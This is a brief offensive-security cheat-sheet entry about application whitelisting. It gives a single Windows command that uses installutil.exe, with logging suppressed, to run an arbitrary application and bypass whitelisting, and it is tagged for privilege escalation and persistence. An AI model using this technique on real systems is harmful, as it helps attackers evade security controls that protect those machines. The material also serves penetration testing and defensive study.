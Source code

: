 # application whitelisting

% application whitelisting, clm
## whitelisting bypass with installutil
#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON 

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U <full_path_to_app>
```

